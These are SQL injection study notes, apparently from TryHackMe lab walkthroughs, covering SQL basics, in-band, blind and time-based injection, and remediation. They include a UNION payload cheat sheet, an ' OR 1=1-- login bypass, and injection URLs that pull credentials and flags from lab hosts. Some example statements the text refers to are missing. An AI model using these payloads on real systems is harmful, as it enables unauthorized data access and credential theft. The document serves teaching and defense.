





SQL Injection
Resources¶
Following a list of useful resources and cheat sheets related to SQL Injection.
- PortSwigger - SQL Injection Cheat Sheet
- Payload All the Things - SQL Injection
- Websec - SQL Injection
- HackTricks - SQL Injection
- OWASP - SQL Injection Prevention
Introduction¶
Structured Query Language Injection (SQLi) is an attack on a web application database server that causes malicious queries to be executed. Injection vulnerabilities arise when a web application communicates with a database without syntactic validation of a user's input.
Database Fundamentals¶
Database is a way of digitally storing collections of data in an organized manner. A database is controlled by a Database Management System (DBMS). These systems fall into two either being Relational or Non-Relational. A DBMS can house multiple databases with each database containing its own set of related data.
graph TD;
A[DBMS]-->B[DB1];
A-->C[DB2];
B-->T1[Table 1];
B-->T2[Table 2];
C-->T3[Table 3];
C-->T4[Table 4];A relational database is simply a collection of datasets with pre-defined relationships between them. These datasets are organized as a set of tables with columns and rows, making it easy to see and understand how different data structures relate to each other. Each table typically contains a column with a unique ID (primary key) which is used by other tables as a reference thus creating relationships between tables. Popular examples of relational databases include Microsoft SQL Server, MySQL, PostgreSQL and MariaDB.
A non-relational database does not use tables, columns and rows (ie. tabular schema). Typically a non-relational databases are employed to use a data storage model that is optimized for the specific requirements of the type of data being stored. This lack of structure limitation can have the benefit of providing flexibility over a relational database. Non-relational databases are sometimes referred to as NoSQL and popular examples include MongoDB, Cassandra and ElasticSearch.
Tables¶
A table is made up of columns and rows (not dissimilar from a Microsoft Excel worksheet).
In a table, each column is referred to as a field and has a unique name per table. Each column has a dataset type assigned to it which indicates what type of data it will store (ie. integer, strings or dates). As stated earlier, each table typically contains a column with some manner of a unique ID (key field) which permits relations to be formed between tables along with the ability to find specific row entries in SQL queries.
Rows or records contain individual datasets. When new data is added to a database, a new row is created. Inversely, a row is deleted whenever a record is removed.
Structured Query Language (SQL)¶
SQL is used for querying databases. Queries to databases are referred to as statements. The most common commands/statements when interfacing with databases include retrieving, updating, inserting and deleting datasets.
It should be noted different database servers have their own syntax and slight variations on how things work. For the rest of these notes, syntax for MySQL databases will be used. Furthermore, it should be noted that SQL syntax is not case sensitive.
SELECT¶
Data is retrieved from a database using the SELECT statement. Take for example the statement below.
* lets the database know that we wish to retrieve all columns from the table. The from users portion of the statement tells the database which table to retrieve the data from (in this example the data is retrieved from the users table). The ; at the end of the statement indicates to the database that this is the end of our query.
Similarly, we can structure the statement to retrieve specific columns from the desired table. In this case, the * from earlier example statement is replaced with the field names of the desired columns (multiple columns can be retrieved by comma separating the fields).
Take for example the table named users below.
| id | username | password |
|---|---|---|
| 1 | admin | password123 |
| 2 | joe | p4ssw0rd |
| 3 | jane | qwerty |
The following statement would return only columns username and password.
| username | password |
|---|---|
| admin | password123 |
| joe | p4ssw0rd |
| jane | qwerty |
While querying the database, we may need to limit the number of records retrieved by our query. This can be accomplished using LIMIT x to force the database to return only the specified number (x) of records. For example LIMIT 1 tells the database to return only one row of data.
Similarly, we can tell the database to skip a record by using LIMIT x,y where x denotes the number of records to skip and y denotes the number of records to retrieve.
Take for example the following statement used with the users table presented above.
| username | password |
|---|---|
| joe | p4ssw0rd |
| jane | qwerty |
In the event where a specific record needs to be retrieved, the WHERE clause can be used. The following statement used with the users table presented above would return the specific record as requested by the statement.
| username | password |
|---|---|
| joe | p4ssw0rd |
Alternatively, we can tell the database to retrieve all records except for the specified record using the following statement.
| username | password |
|---|---|
| admin | password123 |
| jane | qwerty |
Similarly, conditional clauses like OR and AND can used to craft more complex statements based on dataset retrieval requirements.
Take for example the following statement where only records associated with admin or joe will be retrieved.
| username | password |
|---|---|
| admin | password123 |
| joe | p4ssw0rd |
Or the following statement where the record will only be retrieved when username is equal to admin and the password is equal to password123.
| username | password |
|---|---|
| admin | password123 |
The LIKE clause can be used to specify data which isn't an exact match but instead either starts, contains or ends with certain characters by choosing where to place the wildcard character %.
The following statement returns any row with the username beginning with the letter a.
| username | password |
|---|---|
| admin | password123 |
The following statement will return any record with the username ending with the letter e.
| username | password |
|---|---|
| joe | p4ssw0rd |
| jane | qwerty |
The following statement will return any record where the username contains the letters a and n in the specified order.
| username | password |
|---|---|
| jane | qwerty |
UNION¶
The UNION statement is used to combine the results of two or more SELECT statements. The UNION statement must retrieve the same number of columns in each SELECT statement. The retrieved columns must have similar data type and column order.
Consider the following tables named customers and vendors.
| id | name | address | city | postal |
|---|---|---|---|---|
| 1 | Jo Shepard | 123 53 Street | Edmonton | T1J 4M3 |
| 2 | Jane Smith | 59 Pulsar Street | Calgary | R2Y 4J1 |
| 3 | Paul Rogers | 45 Red Street | Edmonton | T6M 2J5 |
| id | company | address | city | postal |
|---|---|---|---|---|
| 1 | ACME Co. | 52 Gray Avenue | Toronto | Y1T 4B1 |
| 2 | Nova Inc. | 125 Stellar Crescent | Vancouver | Y2Z 2J3 |
| 3 | Brown Consulting | 143 Homeward Ave | Edmonton | T6J 1J5 |
By utilizing the UNION statement, we can combine results from the two tables above and put them into a single dataset.
SELECT name,address,city,postal FROM customers UNION SELECT company,address,city,postal FROM vendors;
| name | address | city | postal |
|---|---|---|---|
| Jo Shepard | 123 53 Street | Edmonton | T1J 4M3 |
| Jane Smith | 59 Pulsar Street | Calgary | R2Y 4J1 |
| Paul Rogers | 45 Red Street | Edmonton | T6M 2J5 |
| ACME Co. | 52 Gray Avenue | Toronto | Y1T 4B1 |
| Nova Inc. | 125 Stellar Crescent | Vancouver | Y2Z 2J3 |
| Brown Consulting | 143 Homeward Ave | Edmonton | T6J 1J5 |
INSERT¶
The INSERT statement is used to tell the database that we would like to add a new record into the table.
Consider the users table presented earlier.
The clauseINTO users tells the database which table we wish to insert the new record into. (username,password) provides the column names we are providing the data for and VALUES ('bob','pass') provides the data for the specified columns.
| id | username | password |
|---|---|---|
| 1 | admin | password123 |
| 2 | joe | p4ssw0rd |
| 3 | jane | qwerty |
| 4 | bob | pass |
UPDATE¶
The UPDATE statement allows us to update one or more record within a table.
Consider the statement below.
UPDATE users tells the database that we would like to update a record in the users table. SET username='root',password='pass123' tells the the database which field needs to be updated and their associated values. WHERE username='admin' specifies the exact row to be updated. The dataset returned would be as follows.
| id | username | password |
|---|---|---|
| 1 | root | pass123 |
| 2 | joe | p4ssw0rd |
| 3 | jane | qwerty |
| 4 | bob | pass |
Note that the username and password fields for admin have been updated respectively.
DELETE¶
The DELETE statement allows us to remove specific records for a specified table. LIMIT x can be used to specify the number of rows to be deleted.
Consider the following statement.
| id | username | password |
|---|---|---|
| 1 | root | pass123 |
| 2 | joe | p4ssw0rd |
| 4 | bob | pass |
Note that all data from a table can be expunged by omitting the WHERE clause.
| id | username | password |
|---|---|---|
SQL Injection¶
SQLi is a major yet common attack on web applications which occurs when the application accepts a malicious user input and uses it as part of the SQL statement to query the database.
Consider the following example URL: https://www.example.com/blog?id=1
Let's assume that the above URL serves blog posts to the user where each blog entry has a unique id number. The blog entries may be marked as public or private to control access. In the URL above, the blog entry is selected using the id parameter. The web application uses the id parameter in an SQL statement to retrieve the requested entry from the database. An example of the SQL statement may resemble the following.
Here we are requesting the database to retrieve an entry with id equal to 1 and the private parameter set to 0 from the blog database. The retrieved records are limited to a single match by using the LIMIT 1 clause.Let's assume that blog entry with id equal to 2 is locked as private and cannot be accessed by us. If our inputs are not properly sanitized, we can modify and call the URL: https://www.example.com/blog?id=2;--
The vulnerable web application would take the above URL and produce the following SQL statement.
The semicolon afterid=2 signifies the end of the SQL statement and the two -- causes everything afterwards to be treated as a comment in MySQL. The database in turn executes the above statement as follows.
This retrieves the blog entry with an id equal 2 which normally we would not be able to see due to it being marked as private.
The above is a very simple example of basic SQLi vulnerability of a type called In-Band SQL Injection. We will explore this further in the next section.
In-Band SQLi¶
In-band SQL injection occurs when an attacker is able to use the same communication channel to both launch the attack and retrieve the results. In-Band SQL injections are considered to be the most common and the easiest type of SQLi to detect and exploit.
The two most common types of in-band SQLi are Error-Based SQLi and Union-Based SQLi.
-
Error-based SQLi rely on error messages created by the database server to obtain information about the structure of the database. This type of SQLi can often be used by an attacker to enumerate an entire database.
-
Union-based SQLi leverages the UNION SQL operator to combine the results of two or more SELECT statements into a single result which is then returned as part of the HTTP response. This method is the most common way to extract large amounts of data via an SQLi vulnerability.
Let's look at a practical example of in-band UNION based SQLi attack using MySQL.
The key to discovering error-based SQLi is to break the underlying SQL query by trying certain characters until an error message is produced (typically this is most commonly done using single apostrophe ' or a quotation mark ").
Let's place an ' after the id=1 in the URL. Notice the error message. This indicates that the web application is vulnerable to SQLi (particularly error-based SQLi).
Now that we know that the web application is vulnerable to SQLi, we need to return data to the browser without displaying an error message. By utilizing the UNION operator we can retrieve additional results. Recall that when using UNION, the retrieved dataset must have the same number of columns as the preceding SELECT statement.
Let's try 1 UNION SELECT 1 (alternatively we could use 1 UNION SELECT null which will yield the same result). Notice that the error message returned indicates that there is a mismatch in the number of columns.
Let's keep adding columns until the error message disappears.
At 1 UNION SELECT 1,2,3 (or 1 UNION SELECT null,null,null) the error message disappears and the article is once again displayed. The reason the article is displayed is because the query takes the first returned result in the web application's code and displays it. We can get around this by setting the original SELECT operator to produce no result by changing the article id to either 0 or -1.

We can now dump the list of tables in the active database. We can achieve this by leveraging the fact that we know the database type is MySQL and as such use information_schema which contains information on all the databases and tables.
This can be accomplished using: -1 UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()
In the statement above:
- group_concat(table_name) tells the database that we want to retrieve the specific column named table_name from the multiple returned rows and put it into one string separated by commas.
- information_schema.tables tells the database that we are interested in all the tables in the database we have access to.
- table_schema = database() indicates which database we would like to retrieve the table names from. In MySQL, database() retrieves the name of the active (or current) database.

Now that we know the table names in the database, we can proceed with dumping the columns for a specific table. As the purpose of this exercise is to retrieve the password for user martin, we can start with the table staff_users.
To dump the columns in a table, we can use: -1 UNION SELECT null,null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
In the statement above:
- group_concat(column_name) tells the database that we want to retrieve the column_name from the multiple returned rows and put it into one string separated by commas.
- information_schema.columns contains information on the columns within the tables the user has access to.
- table_schema = 'staff_users' indicates that we wish to retrieve column names for the staff_users table.

Now that we know what columns are present in the staff_users we can retrieve the user's information using -1 UNION SELECT null,null,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users.
In the statement above, group_concat method returns all the rows into one string to make it easier to read. The ':' is used to split username and password from each other. The HTML tag <br> is used to display each result on a separate line instead of being comma separated.

We can now confirm martin's password to retrieve the flag: THM{SQL_INJECTION_3840}
Let's summarize the steps above into something more general.
- Verify SQLi vulnerability via entry point detection by escaping the current context.
- Determine the number of columns in the table by using
Order/Group byorUNION SELECT(continue to increment or add additionalnullvalues until the query is correct). OR
' UNION SELECT null-- #Error: All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
' UNION SELECT null,null-- #Error: All queries combined using a UNION, INTERSECT or EXCEPT operator must have an equal number of expressions in their target lists.
' UNION SELECT null,null,null-- #Working
' UNION SELECT 'a',null,null-- #Error: Conversion failed when converting the varchar value 'a' to data type int.
' UNION SELECT null,'a',null-- #Error: Conversion failed when converting the varchar value 'a' to data type int.
' UNION SELECT null,null,'a'-- #Working
# Database Names
' UNION SELECT null,null,group_concat(schema_name) FROM information_schema.schemata
# Database Name Alternative for Current/Active Database
' UNION SELECT null,null,database()
# Table Names
' UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'SPECIFY_DATABASE_NAME'
# Table Names Alternative for Current/Active Database
' UNION SELECT null,null,group_concat(table_name) FROM information_schema.tables WHERE table_schema = database()
# Column Names
' UNION SELECT null,null,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'SPECIFY_TABLE_NAME'
# Retrieve Data
' UNION SELECT null,null,group_concat(SPECIFY_COLUMN_NAME,SPECIFY_COLUMN_NAME) FROM SPECIFY_TABLE_NAME
Blind SQLi¶
Like in-band SQLi, blind SQL injection (also known as Inferential SQL Injection) arises when a web application is vulnerable to SQLi but the HTTP responses do not contain results of the relevant SQL query or the details of any database error. Blind SQLi requires the attacker to reconstruct the database structure step-by-step by observing the behaviour of the database server and web application. SQL injection techniques like UNION attacks are not as effective in blind SQLi due their reliance on being able to see the results of the injected query but still possible though time consuming.
There are two variants of blind SQL injection that are commonly used: Content-based Blind SQL Injection and Time-based SQL Injection.
One of the most common and straightforward applications of blind SQL injection technique is bypassing authentication.
Authentication Bypass¶
In authentication bypass attacks, an attacker is less concerned with retrieving data from the database which makes blind SQLi less complex and time consuming.
Often web applications with login forms and their underlying databases are developed in a way that isn't interested in the content of the username and password fields but whether the two fields make a matching pair in a specific table. An authentication bypass attack relies on this behaviour to create a database query that replies with a TRUE or FALSE thereby making valid username/password pair enumeration unnecessary.
Let's look at a practical example of an authentication bypass attack.
The following example web application requires a correct username and password values in order to authenticate the user.

In the back end, the web application code produces the following SQL query based on a user's input:
The above query returns a TRUE when a matching pair for username and password are found and FALSE when a matching pair is not found. Note that the'%username%' and '%password%' values are taken from the login form fields and as result the initial values in the SQL query above will be blank as these fields are empty by default.
In order to make the SQL query above always return a TRUE, we can modify the username or password field with the following conditional (boolean) operator which is always true.
TheOR operator in combination with the always true statement 1=1 ensures that the query always returns as a TRUE which satisfies the logic condition that the database found a valid username/password pair and that access should be granted. -- truncates any proceeding statement from being executed by converting it into a comment. As a result, the original query gets modified to:
OR
SELECT * FROM users WHERE username = '' AND password = '' OR 1=1; -- If injected into password field

By using this modified SQL query, we are able to bypass any user authentication requirements and acquire the flag: THM{SQL_INJECTION_9581}
Content-based Blind SQL Injection¶
Content-based Blind SQLi (also referred to as Boolean-based Blind SQLi) requires the attacker to observe the behaviour of the database server after making SQL queries containing boolean operators that ask the database TRUE and FALSE statements.
Consider the following example where a URL, http://example.com/items.php?id=1, sends the following query to the database:
Let's look at a more practical example of how an attacker can leverage content-based blind SQLi to retrieve database structure and eventually a password for a specific user. As we will see with the following example, this method of SQL injection can be extremely time consuming based on the complexity of the database.
The following example web application presents a mock browser with the following URL:
The underlying SQL query is as follows:The browser body shows the contents of {"taken":true} which replicates a common feature found in many sign-up forms that check whether a username already exists during registration and prompt the user to choose a different username.
As we can see in the image above, the value for taken is set to true which implies that the username admin is already registered. Let's select a username that does not exist in the database (test) which give us a taken value of false and manipulate the the query such that it changes the value of taken to true in order to verify content-based SQLi vulnerability.

Notice that the even though test does not exist as a user and as such should give us a taken value of false, the addition of OR 1=1;-- results in the query being always true.
We can now begin enumerating the database structure using the UNION attack technique. Let's start by enumerating the number of columns in the table.
Let's keep adding null to the statement until the number of columns match.

With the number of columns known, we can begin enumerating the name of the database. This can be accomplished by using the built-in database() method in MySQL and then using the LIKE operator to try and find results that will return a true value for taken.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null WHERE database() LIKE 'a%';--

Based on the statement above, we can be confident that the name of the database does not start with the letter 'a'. Continue cycle through all the letters, numbers and characters until the value of taken returns a true.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null WHERE database() LIKE 's%';--

Based on the result above, we can be confident that the first letter of the database's name is the letter 's'. We can now move onto the next character in the database name (ie. 'sa%', 'sb%, 'sc%', etc.) and continue the iteration process until all the characters of the database name have been discovered (sqli_three).
Once we have established the database name, we can begin enumerating the table names using a similar method utilizing the information_schema database.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'a%';--
taken returns a true. Going through the iterative process, we will discover a table in the sqli_three database named users.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.tables WHERE table_schema = 'sqli_three' AND table_name LIKE 'users';--

With the table name now known, we can begin enumerating the columns in the users table. Here we will leverage the information_schema.columns method, database name and table name for enumeration.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name like 'a%';--
taken returns a true. As tables have multiple columns, we need to ensure that we add any found column names to our query to avoid re-discovering the same one again. As we iterate through, we will discover one of the column names id which we will need to add to our query.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM information_schema.columns WHERE table_schema = 'sqli_three' AND table_name = 'users' AND column_name like 'a%' AND column_name != 'id';--
users table: id, username and password. With this knowledge we can start enumerating the password for a known user. Since we know that admin is a valid user, we can modify our query to begin the password discover.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM users WHERE username = 'admin' and password LIKE 'a%';--
taken returns a true. Repeating the iteration process we will discover the password 3845 for the admin user.
https://website.thm/checkuser?username=test' UNION SELECT null,null,null FROM users WHERE username = 'admin' and password LIKE '3845';--

Using the credentials admin:3845 we can retrieve the flag: THM{SQL_INJECTION_1093}
As obvious for this example, content-based blind SQLi can be a time consuming endeavour but none-the-less allow an attacker to retrieve unauthorized data.
Time-based Blind SQLi Injection¶
Time-based blind SQLi injections requires an attacker to observe the behaviour of a web application and its underlying database server after forcing the database to perform a time-intensive operation. If the web application does not return a response immediately, blind SQLi vulnerability is likely. This is useful for scenarios where no visual indicator of queries being TRUE or FALSE are presented.
In MySQL, the built-in method SLEEP(x) alongside with UNION SELECT are typically leveraged.
Let's look at a practical example of time-based blind SQLi.
Begin by enumerating the number of columns in the table. We can do this by combining UNION SELECT with SLEEP(5). If the number of columns guessed is correct, we should observe a 5 second delay in the response time. If there was no pause in the response time then it is likely that the query was unsuccessful. Like in the previous example, we select a username (referrer) which does not exist in the database.

Notice that the above query does not cause any time delay in the response time which indicates that our UNION SELECT statement did not execute due to an error (in this case a mismatch of columns between the SELECT statements). Let's continue enumerating the number of columns by incrementing the number of columns.

Notice the delay of 5 seconds in the response time. This means that our UNION SELECT query executed successfully and that there are 2 columns.
Based on this behaviour, we can follow the iterative process we used in the content-based blind SQLi attack to determine the database name, table name, column names and the credentials.
Enumerate the database name sqli_four by:
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null WHERE database() LIKE 'sqli_four';--
Enumerate the table name users by:
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.tables WHERE table_schema = 'sqli_four' AND table_name LIKE 'users';--
Enumerate column names username and password by:
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.columns WHERE table_schema = 'sqli_four' AND table_name = 'users' AND column_name LIKE 'username';--
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM information_schema.columns WHERE table_schema = 'sqli_four' AND table_name = 'users' AND column_name LIKE 'password' AND column_name != 'username';--
Enumerate username admin by:
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM users WHERE username LIKE 'admin';--
Enumerate password 4961 by:
https://website.thm/analytics?referrer=test' UNION SELECT SLEEP(5),null FROM users WHERE username = 'admin' AND password LIKE '4961%';--
admin:4961 we acquire the flag: THM{SQL_INJECTION_MASTER}
Out-of-Band SQLi¶
Out-of-band SQLi is a type of SQL injection where the attacker does not receive a response from the attacked web application on the same communication channel but instead is able to cause the application to send data to a remote endpoint. An out-of-band attack is classified by having two communication channels: one to launch the attack and one to gather the results.
The general process of out-of-band SQLi follows these steps: 1. An attacker makes a request to a web application vulnerable to SQL injection with an injection payload. 2. The web application makes an SQL query to the database which also passes along the attacker's payload to the SQL server. 3. The payload contains a request which forces an HTTP (or DNS) request back to the attackers machine containing data from the database.
Out-of-band SQLi are not considered to be common in practice.
SQLi Remediation¶
The following are some common remediation actions which can be put in place as remediation measures against SQLi:
-
Prepared Statements (with Parameterized Queries) - In a prepared statement, the developer writes an SQL query first and then adds any user inputs as a parameter afterwards. Writing prepared statements ensures that the SQL code structure doesn't change and the database can distinguish between the query and the data.
-
Input Validation - Syntactic validation of user input can significantly help in mitigating SQLi. Employing an allow (white) list can restrict input to only certain characters or strings. String replacement method in the various programming languages can filter the characters a developer wishes to allow or disallow.
-
Escaping User Input - Allowing user inputs to contain characters such as
' " $ \can cause SQL queries to break and even lead to injection attacks. Escaping user input is a method of prepending a backslash (\) to these characters which causes them to be parsed just as a regular string and not as a special character in an SQL query.
Additional information on SQL injection prevention can be found at SQL Injection Prevention Cheat Sheet.